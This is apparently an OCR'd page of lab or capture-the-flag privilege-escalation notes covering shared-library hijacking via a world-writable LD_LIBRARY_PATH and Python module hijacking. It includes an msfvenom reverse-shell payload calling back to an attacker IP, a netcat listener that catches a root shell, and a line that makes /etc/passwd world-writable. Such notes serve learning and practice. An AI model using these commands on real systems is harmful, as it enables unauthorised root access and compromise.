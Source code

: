 ==> `LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils`

``` bash
[hades@hades ~]$ ls -ld /usr/local/lib/dev
drwxrwxrwx 2 root root 6 Sep  7  2020 /usr/local/lib/dev
```

``` bash
[hades@hades ~]$ ls -l /usr/bin/log-sweeper
-rwxr-xr-x. 1 root root 8800 Sep  4  2020 /usr/bin/log-sweeper
[hades@hades ~]$ /usr/bin/log-sweeper
/usr/bin/log-sweeper: error while loading shared libraries: utils.so: cannot open shared object file: No such file or directory
```

exploit

``` bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.158 LPORT=6379 -f elf-so > utils.so
```

``` bash
[hades@hades dev]$ chmod 777 utils.so 
[hades@hades dev]$ pwd
/usr/local/lib/dev
```

``` bash
$ sudo nc -nvlp 6379
listening on [any] 6379 ...
connect to [ip] from (UNKNOWN) [ip] 55124
id
uid=0(root) gid=0(root) groups=0(root)
```

### Python Module Hijacking

``` python
$ cat python.py 
#!/usr/bin/python

import sys

try:
    import controller
except Exception:
    print "[!] ERROR: Unable to load controller module."
    sys.exit()
```

`controller module` not found.

Create file `controller.py` and add malicious python code.

``` bash
echo 'import os;os.system("chmod 777 /etc/passwd")' > controller.py
```

## Docker container
